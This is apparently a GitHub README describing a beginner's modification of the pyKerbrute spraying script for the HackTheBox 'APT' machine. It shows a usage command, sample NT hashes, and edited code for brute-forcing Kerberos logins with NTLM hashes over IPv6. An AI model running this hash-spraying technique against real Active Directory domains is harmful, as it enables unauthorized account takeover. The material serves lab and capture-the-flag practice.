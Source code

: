 # NTLMhash bruteforce of kerberos login

I made modifications to ADPwdSpray.py (from [pyKerbrute](https://github.com/3gstudent/pyKerbrute)) for APT of HTB.

<br>

***I'm a beginner so there is still room for improvement.***

<br>

# usage

```
$ python brutehash.py dead:beef::b885:d62a:d679:573f htb.local henry.vinson ntlmhash hash.txt tcp
```

<br>

\*1 This scirt supports only ntlmhash mode and tcp mode of original ADPwdSpray.py

\*2 I used NThash list like following:

```
b300272f1cdab4469660d55fe59415cb
9ea25adafeec63e38cef4259d3b15c30
3ae49ec5e6fed82ceea0dc2be77750ab
```
# what I've modified

## ipv4 -> ipv6 (send_req_tcp)

```python
def send_req_tcp(req, kdc, port=88):
    data = encode(req)
    data = pack('>I', len(data)) + data
    # sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock = socket.socket(socket.AF_INET6, socket.SOCK_STREAM)
    # sock.connect((kdc, port))
    sock.connect((kdc, port, 0, 0))
    sock.send(data)
```

## last  part

```python
if __name__ == '__main__':
    kdc_a = sys.argv[1]
    user_realm = sys.argv[2].upper()
    user_name = sys.argv[3]

    file_object = open(sys.argv[5], 'r')

    for line in file_object:
        nthash = line.strip('\n')
        print(nthash)  # just show progress, you can remove this
        user_key = (RC4_HMAC, nthash.decode('hex'))
        passwordspray_tcp(user_realm, user_name, user_key, kdc_a, nthash)
```
## other

- I commentouted `from Crypto.Cipher import MD4, MD5` because of ImportError
- I deleted parts regarding UD

### success example

![brutesuccess](https://user-images.githubusercontent.com/85237728/159254302-2faddcae-b655-4d30-94da-22f1e7b0fc05.png)

# note

- please use this brutehash.py in the directory where `pyasn1` and `_crypto` are otherwise **PyAsn1Error** may happen.
- if a valid hash found, its bruteforce attack doesn't stop, so remove `print(nthash)` or watch carefully or ...

